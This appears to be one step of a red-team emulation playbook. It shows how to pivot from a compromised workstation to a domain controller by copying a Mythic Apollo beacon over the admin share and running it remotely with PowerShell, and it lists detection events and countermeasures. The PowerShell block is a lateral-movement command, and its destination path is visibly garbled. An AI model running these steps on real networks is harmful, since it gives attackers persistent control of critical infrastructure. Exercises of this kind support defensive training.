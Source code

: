 
# Step 2: Pivot to Domain Controller

**Objective**: Establish a second, persistent Mythic beacon directly on the Domain Controller (`infra-dc1`) using your existing foothold on `it-workstation02`.

---

## Context

- Red Team has an active Apollo beacon on `it-workstation02` with domain admin rights.
- Goal is to gain direct control over the Domain Controller for high-trust actions in later steps.

---

## Execution

### 1. Deploy Apollo Beacon to `infra-dc1`

From the beacon on `it-workstation02`, execute the following:

```powershell
Copy-Item -Path C:\RedTeam\apollo.exe -Destination \infra-dc1\C$\Windows\Temppollo.exe
Invoke-Command -ComputerName infra-dc1 -ScriptBlock { Start-Process "C:\Windows\Temp\apollo.exe" }
```

### 2. Confirm Callback in Mythic

- In the Mythic UI, look for a new callback from `infra-dc1`
- Verify integrity level and user context

---

## Result

- Live beacon is now active on the Domain Controller (`infra-dc1`)
- You have privileged, persistent access to the environment's most critical system

---

## Detection Opportunities

| Event ID | Description |
|----------|-------------|
| 4624     | Remote logon (via WinRM or SMB) |
| 7045     | New service creation if applicable |
| PowerShell logs | Remote execution / file copy |

---

## Defensive Countermeasures

- Alert on lateral movement to DCs from workstations
- Restrict admin shares and WinRM access to DCs
- Monitor for unauthorized process execution in `C:\Windows\Temp\`
